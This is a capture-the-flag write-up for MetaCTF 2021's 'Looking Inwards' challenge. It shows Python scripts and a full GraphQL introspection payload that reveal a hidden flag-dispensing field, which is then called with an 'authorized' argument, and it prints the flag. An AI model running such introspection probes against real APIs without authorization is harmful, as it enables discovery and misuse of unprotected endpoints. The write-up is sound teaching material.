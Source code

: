 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this basic [GraphQL API server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php). To get you started, here's one cool thing it can do: If you send it a `query` in the form of `echo(message: "message_here")`, it will respond with what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid response back from the GraphQL server using the query `echo(message: "message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-a-graphql-api-using-python-246dda927840) from `Towards Data Science` which walked us through how to send a GraphQL request using Python. Below allowed us to send that query.

```python
import requests
import pandas as pd

query = '''query {
	echo(message: "message_here")
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

Output:

```JSON
200
{"data":{"echo":"You said: message_here"}}
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called `introspection` on GraphQL APIs to find other endpoints. Using the following [resource](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/) from `Yes We Hack`, it included the following payload:

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

We chucked this payload into our script from the previous step and found the following in the really long output:

```JSON
{
    "name": "super_super_secret_flag_dispenser",
    "description": null,
    "args": [{
        "name": "authorized",
        "description": null,
        "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
                "kind": "SCALAR",
                "name": "Boolean",
                "ofType": null
            }
        },
        "defaultValue": null
    }],
    "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
            "kind": "SCALAR",
            "name": "String",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
    }],
    "inputFields": null,
    "interfaces": [],
    "enumValues": null,
    "possibleTypes": null

}
```

This shows that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`.

## Step 3 - Retrieving the Flag

Knowing that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`, we crafted the following query:

```
query {
    super_super_secret_flag_dispenser(authorized: true)
}
```

Our final script looks like this:

```Python
import requests
import pandas as pd

query = '''query{
    super_super_secret_flag_dispenser(authorized: true)
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

<details>
<summary> Output (contains the flag) </summary>
<p>
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
</p>
</details>

<details>
    <summary> Flag Spoiler </summary>
    MetaCTF{look_deep_and_who_knows_what_you_might_find}
</details>
